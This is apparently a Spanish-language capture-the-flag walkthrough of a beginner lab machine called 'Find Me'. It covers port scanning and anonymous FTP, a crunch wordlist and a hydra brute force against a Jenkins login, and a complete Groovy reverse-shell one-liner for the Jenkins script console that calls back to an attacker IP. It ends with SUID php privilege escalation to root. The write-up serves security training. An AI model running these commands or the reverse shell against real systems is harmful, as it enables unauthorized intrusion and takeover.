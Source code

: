 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Find Me

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.91
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.91 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP, puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,8080 -v 192.168.1.91
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Ingresamos la IP pero a través del **puerto 8080** y nos encontramos con el panel de login de **Jenkins**.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Al realizar el escaneo encontramos que tenemos acceso anónimo a través de FTP por lo que indagaremos si hay algo relevante. Vemos una nota de `ayuda.txt` por lo que nos la descargamos.

```bash
ftp 192.168.1.91
ls
get ayuda.txt
```

Al mostrar el contenido encontramos un usuario llamado **geralt**. Nos da pistas de lo que recuerda por lo que creamos un diccionario con las distintas posibilidades a tavés de **Crunch**.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```bash
crunch 5 5 -t p@@@a -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ingresamos el usuario descubierto con una contraseña cualquiera y al inspeccionar la pagina en **Network** cogemos la distinta informacion para realizar el ataque de fuerza bruta.

```bash
hydra -l geralt -P diccionario.txt 192.168.1.91 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión en **Jenkins** con las credenciales.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```bash
String host="192.168.1.50";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY. Nos cambiamos de usuario a **geralt**.

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.&#x20;

Buscamos archivos con permisos **SUID**.

```bash
find / -perm -4000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (756).png" alt=""><figcaption></figcaption></figure>

Buscamos en la página [GTFObins](https://gtfobins.github.io/gtfobins/php/).

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
